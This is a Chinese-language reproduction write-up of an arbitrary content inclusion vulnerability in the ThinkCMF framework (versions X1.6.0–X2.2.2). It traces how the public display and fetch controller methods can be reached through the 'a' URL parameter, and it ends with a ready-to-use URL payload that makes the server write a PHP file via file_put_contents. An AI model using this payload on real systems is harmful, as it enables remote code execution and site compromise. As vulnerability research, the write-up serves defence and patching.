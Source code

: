 ThinkCMF 框架上的任意内容包含漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF
X2.2.2

三、复现过程
------------

根据index.php中的配置，他的项目路径为application，打开 Portal 下的
Controller 目录，选择一个控制类文件。

![](resource/ThinkCMF框架上的任意内容包含漏洞/media/rId24.png)

发现他的父类为Common\\Controller\\HomebaseController。
在HomeBaseController中加入如下测试代码

![](resource/ThinkCMF框架上的任意内容包含漏洞/media/rId25.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public,
而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

    http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success

![](resource/ThinkCMF框架上的任意内容包含漏洞/media/rId26.png)

HomeBaseController类中有一些访问权限为public的函数，

![](resource/ThinkCMF框架上的任意内容包含漏洞/media/rId27.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
\$this-\>parseTemplate
函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

    /**
     * 加载模板和页面输出 可以返回输出内容
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $charset 模板输出字符集
     * @param string $contentType 输出类型
     * @param string $content 模板输出内容
     * @return mixed
     */
    public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
        parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
    }

再往下就是调用Think View的fetch方法，这里的TMPL\_ENGINE\_TYPE 为Think,
最终模版内容解析在ParseTemplateBehavior中完成 如下调用即可加载任意文件
<http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md>

![](resource/ThinkCMF框架上的任意内容包含漏洞/media/rId29.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

    http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
